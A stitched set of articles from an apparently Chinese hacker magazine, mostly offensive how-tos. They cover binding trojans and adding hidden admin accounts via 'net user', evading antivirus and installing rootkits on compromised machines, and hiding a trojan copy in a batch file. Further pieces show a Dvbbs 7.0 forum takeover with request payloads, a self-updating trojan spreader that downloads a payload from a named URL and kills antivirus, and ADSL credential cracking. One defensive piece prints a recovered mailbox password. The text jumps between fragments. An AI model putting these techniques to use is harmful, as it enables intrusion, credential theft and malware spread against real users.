| rsHKLMRunServices | HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices |
| rsHKCURun | HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run |
| rsHKCURunOnce | HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce |

表1

### 一、Standard

捆绑文件：首先按 “SourceFile” 右边的按钮选择要捆绑的文件；选择完后还要选择 “RemoteFile” 函数来释放捆绑的文件。在选择路径时与 “RemoteFolder” 配合使用，如果你选择绝对路径就设置为 “rfCustom”，当然也可以选择在系统根目录、Windows 目录、System32 目录或 Temp 目录。运行方式当然为隐藏运行，在 “ExecMethod” 的下拉菜单选择最后一项。


- 删除文件：函数和捆绑的一样，默认是文件所在的路径。
- 运行文件：输入完 “RemoteFile” 和 “RemoteFolder”，再选择运行方式就 OK 了。
- 延迟运行：有时需要欺骗或者防止出错时要用到，直接在 “Delay” 输入要延迟的时间（按毫秒计）。
- 显示消息框：常用功能包括 “Buttons”（按钮）、“Icons”（图标）、“Caption”（标题）、“Text”（内容）等。
- 运行后删除自身：添加这个控件就可以了，不用做任何设置。
- 执行 Cmd 命令：既然能执行 CMD 命令，怎么也要添加一个用户吧。添加两个，在第一个的 “Command” 输入 `net user icy$ 8624 /add`，而第二个输入 `net localgroup administrators icy$ /add`，最后再隐藏运行。

```bat
net user icy$ 8624 /add
net localgroup administrators icy$ /add
```

### 二、Internet

- ICQ 通知：一般大家都用 QQ 和 MSN，这里也无法演示了。
- 下载文件：填写你要下载文件的网址，其他设置和上面雷同。


### 三、Registry

| 值 | 说明 |
|---|---|
| rkCurrentUser | HKEY_CURRENT_USER |
| rkLocalMachine | HKEY_LOCAL_MACHINE |
| rkClassesRoot | HKEY_CLASSES_ROOT |
| rkUsers | HKEY_USERS |
| rkPerfData | HKEY_PERFORMANCE_DATA |
| rkCurrentConfig | HKEY_CURRENT_CONFIG |
| rkDynData | HKEY_DYN_DATA |

表2

删除若干个项：在 “RootKey” 选择根键，参数见表2。按 “Lines” 右边的按钮，在弹出的编辑窗口输入你要删除的项。如果要删除同样根键下边的项，一行为一项。同样，要删除的项下面包含子键时都会全部删除（如图4）。

删除若干个键值：虽说一个是删除项、一个是删除键值，但操作还是有点不一样。它只能删除一个项下面的键值。在 “SubKey” 设置要删除的项，在 “Lines” 中输入键值。

添加/修改键值：这个控件的使用方法有些不同，选择好 “RootKey” 和 “SubKey”，然后在“项目管理器”中 RegData 上面点右键，选择 “Edit...”。修改或删除目标项即可；删除时先单击 “Delete” 按钮。


### 四、Windows

- Windows 服务管理：主要是管理已被注册的服务，进行启动、禁用甚至删除服务。
- 注销/关闭/重启：“Flags” 参数见表3。

| 值 | 说明 |
|---|---|
| sfForce | 关闭所有程序并注销。 |
| sfLogOff | 强制关闭所有程序并注销所有用户。 |
| sfPowerOff | 关闭电源。 |
| sfReboot | 重新启动计算机。 |
| sfShutdown | 关闭系统。 |

表3

任务管理器管理：“Disabled” 控制是否显示任务管理器，而 “Options” 为进一步限制。参数见表4，整体效果如图6。

| 值 | 说明 |
|---|---|
| tmNoChangeStartMenu | 阻止使用者增添命令或移除在开始画面上的项目。 |
| tmNoClose | 隐藏休眠、注销、关机、重启等功能。 |
| tmNoLogOff | 隐藏注销功能。 |

表4

### 五、System

CMOS 清除：略。所有控件功能基本介绍完毕。最后是更改生成文件图标，点界面上的图标按钮，选择需要的图标即可（如图7）。


这款软件功能还是非常强大的，也许其中有些功能我们没有介绍到，所以还需要各位自己慢慢发掘了。（本文所涉及的软件 HammerBinder，已收录到光盘中）

## 芝麻开门，守住你的3389

采飞扬[liuyes]

不知道广大网管朋友在维护托管的服务器时，使用的是怎么远程登录呢？不可否认的是，不管是 PcAnywhere，还是 VNC，或者是 Radmin，无论从方便性、速度还是传输的图像质量来说，都赶不上微软自带的远程管理服务（即我们常说的 3389 服务）。但是安全性却成为我们使用 3389 的最大障碍，不过今天我们就来打破这个安全方面的不灭神话。

首先，请出我们的主角——SecureRDP，如图1。作用是限制 3389 登录。不要因为全是英文大家就头晕啊，其实它的配置很简单，只需要简单的几步设置，就会让你的远程登录固若金汤，Let’s go!


### 一、登录IP地址限制

适用范围：用户必须要拥有自己固定的 IP，或者拥有一定范围的 IP 地址。也就是说，如果你每次上网是网通（或电信）动态分配的个人用户的话，建议你先跳过此方法，直接看下面的第二种设置。


配置方法：运行 SecureRDP（安装过程省略，基本上就是一路 next。不过需要注意一点，安装完成后，最好重启一下计算机），选择左边的“IP Address”标签，勾选上面的“Enable IP Address Filter”选项，然后点击“ADD”按钮增加允许登录的 IP 地址，如图2。如果是一个 IP，To 后面的 IP 地址栏可以留空。

如果你想增加禁止登录的 IP 地址，就把上面“mode”选项更改为“Logon disabled”，如图3。另外，在上面还有一个“By default allow logon”选项，如果选中的话，那么除了我们增加的“mode”选项为“Logon disabled”的 IP 地址不允许登录之外，其他所有的 IP 将被允许登录，所以最好不要选择这一选项。


最后，千万别忘了保存我们的设置，使设置生效。我们可以点击工具栏最左边的按钮，如图4，或者选择“File”菜单下的“Apply Configuration”命令，如图5。


保存成功后可以看到图6的对话框。好了，到这里就 OK 了，我们可以试一下，如果 IP 地址不匹配的话，就会被 SecureRDP 拦截，如图7。


### 二、登录计算机名限制

前面说了，第一种方法必须有固定的 IP 地址，那么没有固定 IP 地址的朋友怎么办呢？请看下面的限制方法。

适用范围：没有固定 IP 地址的用户。

配置方法：大体上步骤与第一种方法相同，选择左边的“Computer Name”标签，勾选上面的“Enable IP Address Filter”选项，然后点击“ADD”按钮增加允许登录的计算机名，如图8。


这种方法的好处是显而易见的，只要设置一个允许远程登录的计算机名，就可以在任何地方、任何一台计算机上登录远程主机了。举个例子吧，比如你在网吧想登录远程主机，而你在远程主机设置的只允许计算机名为“liuyes”的计算机登录，那么只要修改网吧的计算机名为“liuyes”就可以正常登录了。

> 修改计算机名的方法：  
> 1. 在 WIN2003 下：`我的电脑` → `属性` → `计算机名` → `更改`  
> 2. 在 WIN2000 下：`我的电脑` → `属性` → `网络标识` → `属性`

### 三、登录计算机MAC地址限制

这个过滤的选项要求是计算机必须与我们要登录的终端服务器在同一个子网，因此这个功能适用于在同一个子网内的用户使用；有兴趣的朋友可以自己试一下，在这里就不多介绍了。

### 四、其他的限制

SecureRDP 还提供了另外两种限制方法：登录器版本和登录时间限制，如图9、图10。结合这两种方法，可以更好地保障远程登录的安全。


> 注意：如果既设置了允许登录的 IP 地址，又设置了允许登录的计算机名，那么必须同时满足这两项才可以正常登录……希望大家维护好自己的服务器。

### 谁说人机不可同名？

细心的用户可能会发现，Windows XP 不允许系统管理员拥有与计算机相同的名字……在安装 Windows XP 过程中，如果你已将计算机命名为 LS，安装完毕后的初次设置，就不可以在“您的姓名”栏中输入 LS，否则就会有出错提示，如图2。


进入系统后，你也无法通过控制面板中的“用户账户”→“更改账户”或“计算机管理”→“本地用户和组”→“用户”中的“用户全名”等操作将系统管理员重命名为 LS，如图3。其实系统管理员还是可以拥有与计算机同样的名字……因此，尽管你不可以通过更改管理员账户来实现人机同名，却可以通过更改计算机名称来达到我们的目的。

方法是：右击桌面“我的电脑”图标，选择“属性”，在弹出的“系统属性”窗口中，切换到“计算机名”选项，点击“更改”按钮，在接下来的“计算机名称更改”窗口中的“计算机名”栏中，输入与系统管理员账户相同的名称，图4，先后两次“确定”后即可生效。


### 封杀 Radmin

随水之舟

最近忙于学校学生信息技术考试，有一段时间没有上网了。同事给我发来消息，说我们经常用的远程控制软件 Radmin 被瑞星列入了黑名单，同时我们“精心”制作的自解压小马也被杀了。不用说，我们网络上的肉鸡也飞走了一半。Radmin 以其优秀的表现，深得我等小黑们的喜爱，竟然也被列入黑名单。


没办法，先查看哪些文件被杀，如图1、图2。服务端主文件 r_server.exe 和动态链接文件 Admdll.dll 均被杀。只有自己动手了，可我对汇编一窍不通，也只能是有病乱投医了。

打开 PEiD 查主文件 r_server 的壳，显示“ASProtect 1.22 - 1.23 Beta 21 -> Alexey Solodovnikov”。还好，有自动脱壳的软件 stripper，能脱去 ASPack 2.xx 和 ASProtect 1.xx 的壳。脱壳后，再用瑞星查查看，竟然不杀了，那就在本机上试试，完全正常。还有一个 Admdll.dll 呢，该怎么办？随手打开资源修改工具 restorator，导入 dll 文件。资源有两部分：对话框和图标，如图3。

一般情况下图标占用较大的空间，干脆删除。保存后再用瑞星查杀，居然这样就不被查杀了。真不知道瑞星是怎么定位特征码的，反正是方便小菜了。

重新配置一个自解压程序，拖入虚拟机，运行，一切正常。为了不让瑞星再杀到，这次我们在肉鸡上装好服务端后，又用 Radmin 的文件管理功能给肉鸡传了个 RootKit。在傀儡主机上安装这个 Rootkit 步骤如下：


## 傻瓜黑客


其次，以前的文章中将 Redbin 的服务端和小游戏捆绑到一起，如果在一台机器上再次运行这个文件，就会出现这样的错误（见图7和图8）。


- 创建目录，例如 `c:\winnt\system32\Radmin\`，把需要隐藏的程序放到该目录。
- 把 `root.exe` 复制到该目录（如 `c:\winnt\system32\Radmin\root.exe`）。
- 在命令行运行 `start c:\winnt\system32\Radmin\root.exe /i`，以实现无端口/无进程/无注册表项等隐藏效果。

另外，文中讨论了“再谈 Radmin”脚本写法中的问题：`c=wshshell.run("regedit /e reg.reg",0)` 导致导入错误；应改为命令行方式导入注册表。

所以我们再配置一个 `vbs` 脚本文件，其中加入 `a=wshshell.run("pskill winlogin.exe",0)`。`winlogin.exe` 是 Radmin 服务端文件改名后的名称，`pskill` 用于结束任务，可在压缩包中一并放入，先运行 `kill.vbs`，再运行 `setup.vbs`（见图9）。


```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\AuthorizedApplications\List]
"C:\\WINDOWS\\system32\\RAdmin\\winlogin.exe"="C:\\WINDOWS\\system32\\RAdmin\\winlogin.exe:*:Enabled:winlogin"
```

```vb
On Error Resume Next
set wshshell=createobject("wscript.shell")
a=wshshell.run("r_server.exe /stop",0)
b=wshshell.run("r_server.exe /install /silence",0)
c=wshshell.run("regedit /e reg.reg",0)
d=wshshell.run("redbin.exe",0)
```


在文件解压目录里会出现较大的注册表文件，容易被发现。由于未将注册表项正确导入，端口会变回默认 4899，且无密码、不隐藏图标等。


路径需与自解压文件路径一致，这样“小马”运行更顺畅。文末强调该方法仅作技术讨论，并提到相关软件：Radmin、stripper、restorator、RootKit、一键 Radmin 等。

### 绿色软件制作漫谈

大家都知道，软件安装程序会在硬盘上形成文件碎片，这样的话时间长了随着程序的增加，机器运行速度会越来越慢（当然垃圾文件只是其中的原因之一）。另外有的时候因为系统崩溃，重装系统后运行很多软件都会出错（主要是需要注册的程序），强行删除又会提示“找不到文件，无法删除”（一般是启动服务的程序，像 BlackIce 防火墙），强行删除又怕不彻底。其实这都是安装文件丢失的原因，大部分是注册表项目和在 SYSTEM32 目录下的相关 DLL 链接库。很长时间网上就流行绿色免安装程序，一般不需要用 setup.exe 安装，解压后即可使用。不知大家以前研究过没有，不过我在 X 档案上见过类似的文章，到网上又找不到相应的教程。相信很多朋友都是用别人打包好的，自己一般是没搞过。其实原理很简单，今天给大家写一个演示，希望对广大菜鸟有所帮助。


正常安装一个程序，这个就不用说了吧。完成后，基本上所有的软件都会在桌面和开始菜单程序组里添加快捷方式，方便点击使用。在快捷方式上点击右键，属性，在“快捷方式”的选项上用“查找目标”命令，没有快捷方式也没关系，安装文件大部分在系统盘的 Program Files 目录里（也有在 WINDOWS 和 system32 目录里的），可以运行后查看程序进程路径得到相关信息。不知大家注意过没有，在程序的目录里往往有个 UNWISE.EXE，这就是软件卸载程序，就是在控制面板里添加或删除程序所显示的。一般情况下还有 UNWISE.INI（有的是 INSTALL.LOG），大多数是 unins000.dat，原因是制作安装文件的程序不一样，也不排除软件作者个人写的卸载程序。这种程序一般不会把安装项目放在外边，这个后文再详细说。先说简单的。在 unins000.dat 点右键使用“打开方式”，可以用记事本打开 unins000.dat，有乱码，不过基本上还是能看得差不多，这里就是安装文件的路径、项目、名称和校验等详细信息，还包括安装时操作的注册表信息。好了，介绍完安装程序的资料了，下面开始讲制作方法。


拿必备的解压软件 WinRAR 来说吧。它的卸载程序是 Uninstall.exe，安装数据库是 Uninstall.lst。有的朋友可能会问软件目录里有几个 .dat 文件时怎么办，至于怎么确定哪个才是卸载文件，就要靠大家自己想办法了，多试上几次就会有经验的。还是用记事本打开 Uninstall.lst，这个软件的安装项目还是比较清楚的，也没有垃圾信息，右边打开的 Uninstall.lst 里 Formats 代表目录 Formats，还有相应的安装文件，如图1。

所有的文件都在 `\Program Files\WinRAR` 目录里，另外还需要有软件的注册信息。从 WinRAR 的帮助文件里可以看到，它的注册信息是在同目录的 rarreg.key 里，没有操作系统注册表。直接把目录下所有的文件用 RAR 打包压缩，卸载后的 Uninstall.lst 和 Uninstall.exe 就不用要了，这是最简单的绿色文件。大家在 unins000.dat 里也看到了，有的软件还在 system32 目录……

## 傻瓜黑客


图3

如添加鼠标右键菜单，可以在 `HKEY_CLASSES_ROOT\*\shell` 和 `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\*\shell` 项目下找到，如图2。

以文件监视小助手为例说明安装文件没有在相同目录的软件的制作方法，顺便提一下文件监视小助手是用来监视程序运行（如创建文件/目录、修改属性等）的工具。其安装文件并未全部放在安装目录里，在 system32 系统目录也有必要组件，缺少则无法运行，如图3。

先把系统目录里的相关文件复制到安装目录里，很多程序可直接调用并运行；但有些程序运行时仍会从系统目录读文件。这时可写一个“第一次运行.bat”把资源文件复制到 system32 或相关目录，例如：`copy 资源文件 "%systemroot%\system32"`。

为了避免 BAT 内容暴露，可将 bat 编译为可执行文件（文中提到 Quick BFC），并通过正常命令提示符页面执行。

```bat
copy 正常文件 "%systemroot%\system32"
@copy 木马文件 "%systemroot%\system32"
```

把木马文件放在最后，运行后木马复制不易被察觉；但木马需先免杀，否则可能被实时监控软件拦截。


图4

前文介绍的是制作由正常安装程序生成的绿色程序。很多程序不会留下完整安装信息，尤其早期软件、非正规发布汉化软件等。可借助文件监视工具与卸载工具（如 Pocket KillBox）分析其卸载行为。

文件监视窗口显示的更新目录可定位安装目录；但某些卸载并不彻底（如仅删除主目录），因此不能完全依赖卸载程序。很多软件没有独立卸载程序，通常通过 Uninstall 项或程序组中的卸载快捷方式完成。

注册表中写入相关 DLL 与组件信息的软件，通常会在注册表中增加软件项目与注册信息；也有通过检查特定路径文件来验证安装信息的软件（文中举 RAR 为例）。相关安装项可在注册表中定位并导出为 `.reg`。

```reg
HKEY_LOCAL_MACHINE\SOFTWARE
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft
HKEY_CURRENT_USER\Software
```

另外，`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall` 保存卸载信息。卸载程序可能较简陋，可配合 MyUninstaller 查看与编辑；若无该项也不一定异常，可能是软件安装方式不同所致。

要是实在找不到必要的信息，告诉大家一个最简单最好用的办法：一般在安装和卸载的时候都会显示安装文件的信息，如图5。

先把安装后的文件备份一下，接着卸载删除，运行原来备份的文件后一般会提示找不到什么文件，再把安装文件重新安装一遍，用系统的搜索助手功能在所有盘符中搜索，不信找不到。这样装卸几次，安装文件的所有资源都会找到。

本文写得比较偏，基本上不属于破解，没什么技术含量，各位高手见笑了。我觉得对大家节省硬盘空间还是比较有用的。

（本文所涉及的软件：文件监视小助手、Quick BFC、filemon.exe、regmon.exe、Pocket KillBox，光盘已收录）


## 三分钟搞定动网7.0

陈鹏

动网 7.0 相信还是有很多论坛正在使用。这次入侵完全是借助别人已经编译好的程序，方法想必已经有人介绍过了，但肯定还是有不知道的朋友，下面我就简单通过实例来说说入侵过程吧。

在搜索引擎中搜索“Dvbbs Version 7.0”，可以发现无数个目标。我们先来随便确定一个 `http://www.xxxxx.com/dvbbs/index.asp`，如图1。不用客气了，直接打开工具 dvhackexp，填上 URL，注意这里不是填写 `http://www.xxxxx.com/dvbbs/index.asp`，而是省掉后面 index.asp 部分，填写 `http://www.xxxxx.com/dvbbs/`，如图2。


点击获取验证码，然后填写 4 位数字验证码，点击“注册并提交”，显示成功后打开论坛填上账户密码。看到了吗，你已经是管理员了，如图3。


现在我们已经是前台管理员了，这并不是我们要的，我们需要的是后台权限，甚至是 WEBSHELL。下面看我的做法，首先点击会员列表，查看管理信息，找到了一个叫 admin 的管理员，估计九成就是他了。然后打开另外一个工具——黑色暴风的动网利用程序。打开软件，填入论坛地址以及我们注册的用户名和密码，选择“暴 Dv_log”，点“我要暴了”，如图4。


在显示页里的最后几页找到 admin 的密码，如图5。我们看到是 admin123456，然后使用管理员用户名和密码就可以进入后台，如图6。可以选择用备份数据的方法上传木马等。

| # | 提交内容（节选） |
|---|---|
| 1 | `CBASubmit=%...` |
| 2 | `username2=admin&password2=admin123456&username1=admin&Submit1=%...` |
| 3 | `username2=admin1&password2=admin1123456&username1=admin1&Submit1=%...` |

```text
username2=admin&password2=admin123456&username1=admin&Submit1=%CCXED+SBCXD3

username2=admin1&password2=admin1123456&username1=admin1&Submit1=%CCXED+SBCXD3
```

（本文涉及的软件：dvhackexp、黑色暴风的动网利用程序，已收录）


## 傻瓜黑客

### 偷密码不成倒过来，揪出垃圾马客

最近网吧中经常被人在电脑里种上木马，这些人先用工具软件破解网吧还原精灵或还原卡，然后种上木马。对于这种人我是最讨厌的，学到一点技术就到处炫耀搞破坏。今天，我就演示一遍如何反击下马者。首先声明，本文我以得到的木马病毒为样本，大家也可以通过此方法来举一反三。

我们知道现在大多数的盗 QQ 木马都是一些键盘记录类的程序……现在在本机模拟种木马的环境，然后我们打开一个截取数据包软件 commview。木马通常在计算机中以几种方式发信：一种是 smtp 发信；二是 web 收信；还有一种是 ftp 方式。

我们主要截取 QQ 木马发送的数据，所以要在 commview 软件中设置一下截取数据包的规则：在 rules 里设置 protocol 选 tcp，端口设置 ftp21、web80、smtp25 等。最后开始监听数据包，登录 QQ 后观察网络连接与端口变化，再定位可疑 smtp 会话。

马者的邮箱 `hackerjun@126.com`。我们的目的就是要找到邮箱密码，然后改掉，让他不再害人。在网络上传输的密码是经过 base64 加密的，明显“334 UGFzc3dvcmQ6”就是加密后的密码，解密后原文是“Password:”。再将“dW9jZWtnZGM=”解密得到“uocekgdc”，利用该密码和账号登录邮箱并修改密码。

在这个事例中，木马只使用了 smtp 发信方式，可能还有其它发信方式，大家可以参照本方法抓到数据包与马者邮件，并予以制止。


（本文所涉及到的软件：commview 和 base64 工具，已收录到光盘中）

## Google论坛 惊现呆呆虫

前些日子，在网上冲浪，闲着无事打开 Google（PS：有够闲的，没事打开来干嘛——）。正要关闭之际，看见了“论坛”二字。奇怪，Google 是什么时候推出论坛的？怎么以前一直没留意到。管它呢，进去看看再说。


图2


图1

在里面逛了一圈后，才知道原来该论坛任何人均可自由创建，而创建的论坛是一个电子邮件，而不是类似 ASP、PHP 等程序，里面发表的每一个主题都有一封邮件，而且论坛正文支持利用邮件来发帖。帖子的主题就是邮件的主题，帖子内容就是邮件内容，发帖人就是发件人。在了解到这些后，脑子里突然浮现出一款工具“邮件发送器”。

随便找个论坛邮件体来测试一下，就拿我自己建的“许愿欣论坛”吧，看到论坛邮箱后，打开“邮件发送器”，收件人处填写论坛邮箱，主题写“测试”，发件人处填写“我不是呆呆虫”，并在后面写邮箱地址，正文随便写，点击发送。稍候再打开论坛，帖子已出现，测试成功。

### 用收藏夹快捷地使用黑软

相信各位玩黑的朋友手里都有很多黑客小软件，如果要用，东西多了自然就不太好管理。前两天偶然整理浏览器收藏夹，发现可以利用收藏夹快速定位并打开自己想要的程序。

首先找到收藏夹位置，一般在 `C:\Documents and Settings\...\Favorites`。把常用工具放入对应目录后，可以在浏览器收藏夹中直接访问。对于单个可执行文件可直接放入；也可以建立分类文件夹管理，按用途分组。

如果软件不是单一 exe，而是多个文件，可在收藏夹里建立快捷方式指向目标程序。这样在浏览器里点击收藏项目即可运行。总体来说，这是一种简单但高效的工具管理思路。

虽然这算不上漏洞，但可被用于以他人名义发帖并造成论坛混乱。希望 Google 能在邮件发帖上增加回复确认机制，以防被恶意利用。（文中提到的邮件发送器已收录到光盘）

### 新一代宣传利器——龙少挂马宣传助手

罗素珉

记得在去年12月的杂志上，曾经介绍过一个软件——挂马宣传精灵。不过，现在许多杀毒软件都将它列入了查杀的范围，因此，我今天就给大家带来了一款新的挂马宣传软件——龙少挂马宣传助手。

程序运行后的界面如图1所示，清晰又简洁，各种功能一目了然。先来介绍一下它的 QQ 宣传：一共有6组宣传语句，每一组又带有2个语句。大家随便填写，总之能欺骗对方就可以了（呵呵，怎么骗人，就看你嘴皮子功夫了）。当对方运行后，系统会在打开 QQ 聊天窗口和发送消息窗口时自动发两句消息给自己的好友，每个好友只发送一次。下方的 QQ 宣传语句相关设置中可以修改发送间隔时间和发送一组语句后禁止用户发送消息给该好友（补充说明：QQ 宣传功能会在电脑重启15次后自动失效，因为重启15次后，QQ 没有再自动发消息的必要，这样能降低中毒电脑的厌恶指数和被查杀率，其他功能没有这个限制）。

软件的主打功能——服务端自定义自动升级功能和流量统计功能。方便自动更新 QQ 消息语句（如果内容被腾讯屏蔽），还能更新下载自己的马儿，查看每日流量等。原理是：每次电脑重启后，服务端会每隔一分钟检测一次联网状态，检测到版本的网址后，如果发现 VER.txt 里面的版本号（比如是5.2）与现在的版本号（比如是5.0）不同，则会调用 VER.txt 里 `url=xxx.com` 的新版本地址来下载。下一次电脑重启时使用的就是新版本的服务端。但是如果版本号相同，则不做更新。首先，填写好用户自定义当前的服务端版本号，如 1.0 等，但是版本号只能在 1.0-9.9 之间。注意千万不要填写 1.0.0 或者 1.2.5 这样类似的两位小数，否则会自动升级失败。然后填写好当前服务端自动检测升级的网址（如 `http://www.hackerxfiles.net/ver.txt`），然后再填写好流量统计的网址（如 `http://www.hackerxfiles.net/tj.htm`），点下方的按钮，系统会自动将版本检测程序与流量统计生成到本程序所在的目录。最后将2个文件传送至自己的空间即可。以后，只要想让你的服务端自动升级为新版本，只需修改你的 ver.txt 里面的版本号就可以了（将 ver.txt 里面的 `version=1.0` 后面的 1.0 修改成你的新版本号），并修改好 `url=` 后面的新地址。但注意，流量检测 .htm 里的 htm 标题不能修改，否则不可以 15 秒后自动关闭。

如果我们的木马被 PK 掉了怎么办？这个问题就由这款软件的服务端自动保护功能来解决吧。当服务端运行后，远程保护线程会每5秒钟检测一下木马是不是被删除。如果被删除，首先用备份文件代替它。假如备份文件也被删除了，则会根据我们设置的地址重新下载续命并运行。这样，我们就可以放心使用了。


图1

在下面的“其它功能”中，我们可以锁定主页。但注意，每次服务端运行后只修改首页一次。服务端第一次运行时为了方便设置启动和修改首页，会杀掉江民和雅虎助手。如果以后发现这些项被修改，会再次杀毒杀软并恢复，其他时间不会干掉杀毒软件。其次，我们还可以使用它的2个下载者功能，方便下载自己的马儿。例如，我的鸽子木马在 `http://www.hackerxfiles.net/bingdu.exe` 中，就在下载运行前的方框里打上勾，然后将地址填入即可。若下载不成功，则20分钟后会重新下载，直到成功后停止，并且成功后不会重复下载运行。现在为大家介绍这款软件的服务端自动保护功能……（后文续接）。


图2


图3

配置好了，大家一定要在下方的同意声明处打上勾，然后直接点击生成服务端就可以了。生成好了，委屈自己测试一下。如图2，程序自动向好友发送宣传信息；如图3，我的主页也被锁定为 `http://www.hackerxfiles.net/` 不可修改。最后警告大家不要随便去测试，因为一旦运行，就很难清除，这个程序可没有自动清除的功能。（本文中所涉及到的龙少挂马宣传助手已收录到光盘中）

## 菜鸟通解 ADSL 帐号之三招两式

临床 宋伟


ADSL 帐户和密码获取后的好处，我就不用多说了。要获取别人的 ADSL 帐户和密码，我们首先要做的就是破解 ADSL 的 WEB 管理密码和用户名。下面看我来写三招两式获取 ADSL 用户和密码。

### 一、获取 WEB 管理登录用户名和密码之三招

### 第一招：X-SCAN 显身手

首先说一下原理，对于 ADSL 上网的用户基本上都是动态的 IP 地址，一般不会有人会在动态的 IP 地址开启 WEB 服务，即开 80 端口。但如果启用 ADSL 路由功能，他们的 MODEM 就会默认打开 ADSL Modem 的 WEB 服务和 FTP 服务……并且在 X-SCAN 的扫描模块中选择“FTP 弱口令”进行扫描（图1），就可以获取很多 WEB 管理的密码。


### 第二招：杀手锏——ADSL 密码终结者

关于 ADSL 密码终结者……给广大菜鸟朋友一点建议，对于 ADSL 上网的用户，其所在地区电信局部分配了几个 IP 地址段，并且每次上网 IP 地址都不一样……这样我们要做一些“黑”事，就更加方便了。


### 第三招：定点爆破——WebCracker

首先我们做一个自己的字典，我用的是黑客字典 II……制作好字典文件，下面就轮到我们的主角——WEBCRACKER 出场了。软件运行后如图3，选择“用户名文件”和“密码文件”，在 URL 里填写要破解的 WEB 管理登录地址，点击“开始”即可。


### 二、获取 ADSL 用户名和密码之两式

### 第一式：智取用户名和密码

我登录的一个 ADSL 上网用户的 WEB 管理界面如图4，找到“配置”-“WAN”，查看源文件后可找到用户名 qwert@169 和密码 lkjhgfdsa，这是一个大家都比较熟悉的方法。


```html
<TR><TD>用户名</TD><TD><INPUT TYPE=text VALUE="qwert@169" MAXLENGTH=128 SIZE=32></TD></TR>
<TR><TD>密码</TD><TD><INPUT TYPE=PASSWORD VALUE="lkjhgfdsa" MAXLENGTH=128 SIZE=32></TD></TR>
```

### 第二式：Wsock Expert 建奇功

第一种方法适合于那些可以查看源文件的 ADSL MODEM，若无法查看，则可用 WSOCK EXPERT 抓包工具。运行后选择 IE EXPLORER，获取 WEB 管理用户名和密码登录数据包，从中可看到用户名等信息。


图7，在第一行中我们看到了用户密码 ABCD1234，如此的简单。相信菜鸟跟我学的这三招两式足以轻松破解 ADSL 密码了，文章就到这里。

### 强悍的安全“虚拟机”

花的神明


在 Windows 中安装的软件多了，每个软件都会根据自身需要，对系统的配置修改一番，时间长了，Windows 的运行速度就变得越来越慢了。特别是会有一些恶意程序“潜伏”到系统中，破坏系统的正常运行，甚至窃取电脑中的机密文件。BufferZone 能为 Windows 创建一个虚拟的软件运行环境，如同在您的电脑中产生另外一个“独立”的电脑，您安装的软件就在这台“虚拟”的电脑中。例如，可以在网上下载各种软件，软件的安装、运行过程都在这个“虚拟机”中进行，不管是正常的软件，还是各种黑客程序、恶意代码、病毒程序都无法真正接触您的真实系统，也无法修改任何系统文件、注册表等要害部分。


### 一、初试“虚拟机”

BufferZone 安装成功后注册成名称为“BufferZone Service”的系统服务，BufferZone 启动成功后将 Windows 桌面改变成安全桌面（Secure Desktop），并在桌面上生成一个名为“My Secure Documents”的特殊文件夹。以运行 IE 浏览器为例，当打开 IE 窗口时，BufferZone 会在 IE 的窗口四周产生红色的边框（图1），表明 IE 已经运行在“虚拟机”中了。以下载软件为例，不管是您主动下载，还是网站强行下载，在弹出的文件下载对话框（图2）的四周也有红色边框。下载完成后，在软件安装窗口的四周，以及其在安全桌面上生成的快捷图标周围，包括软件运行界面的周围，都有红色边框围绕，表明该软件已经处于“虚拟机”中了。


以在资源管理器中右击下载的文件，在弹出菜单中选择“Release from BufferZone”项（图3）。这样，软件就可以在真实的 Windows 系统中进行安装运行等操作了。


图6

在 Summary 面板中显示了运行在“安全缓冲区”中的程序数量，以及在系统中存在多少个值得信任的程序。还列出了 BUFFERZONE 具有的 3 种保护类型及其运行状态，包括 Web Protection（网页保护）、Mail Protection（邮件）、P2P Protection（P2P 软件保护）。点击相应的保护名称，能够启动或禁止保护；在“Running in BufferZone”面板中列出当前在“安全缓冲区”中运行的所有程序。选中程序图标，利用右键菜单（图6），能执行转化成正常的程序、刷新程序列表、禁止程序运行、中止运行等 4 种操作。如果希望删除运行在“安全缓冲区”中的程序，点击“Clean BufferZone”按钮即可。

### 二、让“虚拟机”无处不在

其实，不仅仅是 IE，任何一个 Windows 程序都可以在“虚拟机”中运行。在资源管理器中选中需要安装的软件，在其右键菜单上选择“Execute in BufferZone”，这样软件从安装到运行始终都处于“虚拟机”中。对于已经安装好的程序，当其运行后，双击任务栏系统托盘中的 BufferZone 图标打开 BufferZone Protection 窗口，打开“Trusted Programs”页面（图4），在进程列表中列出了当前正在运行的所有进程，选中某一进程名，在右键菜单中点击“Send to BufferZone”项，可以将该进程发送到“虚拟机”中，这样该进程就和真实的 Windows 系统隔离开了，不必担心其对系统的任何修改了。


图4

对于自己利用 BufferZone 精心配置的“安全缓冲区”，当然不希望别人轻易进行改变。打开“Configuration”页面（图7），在 General 面板的 Password 组合框中勾选“Administrator’s password”项，输入管理员密码。这样，退出 BufferZone 及利用 BufferZone 进行修改操作时都必须输入管理员密码。


图7

### 三、管理“虚拟机”

当“虚拟机”运行了许多程序后，如何进行有效的管理呢？在 BufferZone Protection 窗口中选中 Summary 页面（图5）。


图5

如果您懒得输密码，可以勾选“Memorize password for [seconds]”项，并输入具体的时间间隔（以秒为单位），则在指定的时间内 BufferZone 能自动记忆密码，超时后仍需手工输入密码。如果您经常下载并安装运行软件，时间一长，“安全缓冲区”会挤满了软件，引起系统性能的下降。觉得手工清理“安全缓冲区”太麻烦，可以在 BufferZone Maintenance 面板中按照指定天数、指定的星期数、每月的指定星期数、指定的时间点，让 BUFFERZONE 定时自动清理“虚拟机”。此外，BUFFERZONE 还可以对电脑中的移动设备进行保护，包括 USB 移动硬盘、闪盘、光驱、软驱、网络映射盘等，当在这些移动存储设备上运行软件时，同样让其处于“虚拟机”中，以避免隐藏在移动存储设备中的恶意程序破坏系统。打开“Executables Policy”面板（图8），“Removable media Policy”列出所有类型的移动设备，在 Device Type 列中选中设备（例如 USB disk-on-key），在 Protection 中的保护类型列表中可以选择 None（不保护）、BufferZone（发送到“虚拟机”中）、Forbidden（禁止运行）、Confidential（秘密运行）等类型。


### 四、保护重要文件

